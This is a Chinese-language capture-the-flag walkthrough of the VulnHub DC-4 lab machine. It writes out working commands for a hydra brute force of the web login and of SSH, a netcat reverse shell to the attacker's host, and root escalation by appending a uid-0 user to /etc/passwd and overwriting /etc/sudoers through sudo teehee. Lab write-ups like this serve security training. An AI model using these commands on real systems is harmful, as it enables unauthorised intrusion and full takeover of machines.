# DC4
- [参考](https://blog.csdn.net/Auuuuuuuu/article/details/100059696)

- [学习](https://www.vulnhub.com/entry/dc-4,313/)

- [下载](http://www.five86.com/downloads/DC-4.zip)


## 扫描

` nmap -sP 192.168.31.0/24  `



继续扫描目标靶机

```
 nmap -sT -sV -T5 -A -p- 192.168.31.54
```


发现打开ssh和80 先访问80试试看



## 初探

账号为admin，没有验证码，尝试弱口令爆破 使用kali自带的字典先试试
在/usr/share/wordlists/目录下 记得先解压
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.31.54 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```



爆破得到密码 happy，登陆

随便点点发现



可以执行命令，尝试一下写个回弹

```
nc+-e+-nv+/bin/bash+192.168.31.243+4545
```



继续，使用python获取交互模式
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
先fand一下flag 发现啥都没有，忽然灵光乍泄想起来还有个ssh没用上 试试看 find 密码
```
find $password
```



得到用户 jim 密码 jibril04

```
hydra -L 1.txt -P old-passwd.txt  -t 6 ssh://192.168.31.54
```

SSH登陆

```
ssh jim@192.168.31.54
yes
jibril04
```

登陆提示 `邮件`



找到mail

在/var/mail/下得到charles的密码 ^xHhA&hvim0y


切换为charles

```
ssh charles@192.168.31.54
yes
^xHhA&hvim0y
```




sudo -l查看权限，发现可以不需要密码执行teehee（root权限），teehee可以来向其他文件写入内容




## 利用teehee提权

1 通过teehee的sudo提升权限以 root身份写入crontab计划任务通过执行获取root权限

> 设置uid和gid都为0，那么这个用户就相当于root




---

2 通过添加用户到passwd，设置其权限，之后su 访问即可获得root

```
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
```
```
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
sudo -l
sudo su
```





## 总结

该靶场大致要点为： 
- web的爆破和命令执行
- SSH爆破
- 利用 teehee 提权

更新笔记：
- 提权骚操作

添加笔记：
- SSH爆破指北

